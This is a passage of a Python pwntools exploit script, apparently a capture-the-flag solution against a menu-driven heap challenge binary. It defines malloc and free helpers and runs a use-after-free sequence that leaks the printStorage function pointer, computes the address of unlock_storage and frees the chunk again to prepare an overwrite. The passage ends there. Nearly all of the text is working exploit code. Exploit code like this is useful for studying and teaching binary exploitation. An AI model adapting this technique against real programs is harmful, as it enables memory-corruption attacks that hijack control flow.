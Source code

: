 ```Python3
    elif args.REMOTE: # ('server:port')
        return remote(sys.argv[1].split(':')[0], sys.argv[1].split(':')[1])

    else:
        return process([exe.path] + argv, *a, **kw)

# Specify your GDB script here for debugging
# GDB will be launched if the exploit is run via e.g.
# ./exploit.py GDB
gdbscript = '''
set glibc 2.31
#tbreak main
continue
'''.format(**locals())

#===========================================================
#                    EXPLOIT GOES HERE
#===========================================================
# Arch:     amd64-64-little
# RELRO:    Full RELRO
# Stack:    Canary found
# NX:       NX enabled
# PIE:      PIE enabled
# RUNPATH:  b'./glibc/'


# Helper functions

def free():
    io.recvuntil(b'[*] What do you want to do?')
    io.sendline(b'4')

def malloc(size, data):
    io.sendafter(b'[*] What do you want to do?', b'3\n')
    io.sendafter(b'[*] Are you sure that you want to make an offer(y/n): ', b'y\n')
    
    io.sendafter(b'[*] How long do you want your offer to be?', f"{size}".encode())
    io.sendafter(b'[*] What can you offer me? ', data)


# Exploit code

io = start()

free()

# We don't overwrite the function pointer so that we can leak it.
payload = 0x48 * b'Y'
malloc(0x58, payload)

# Leak pointer
io.sendlineafter(b'[*] What do you want to do? ', b'1')
io.recvuntil(b'Y' * 0x48)

leak = u64(io.readline()[:6] + b'\x00\x00')
log.info(f"printStorage leak: {hex(leak)}")

unlock_storage = leak + 0x319
log.info(f"unlock_storage: {hex(unlock_storage)}")

# overwrite printStorage with unlock_storage
free()

```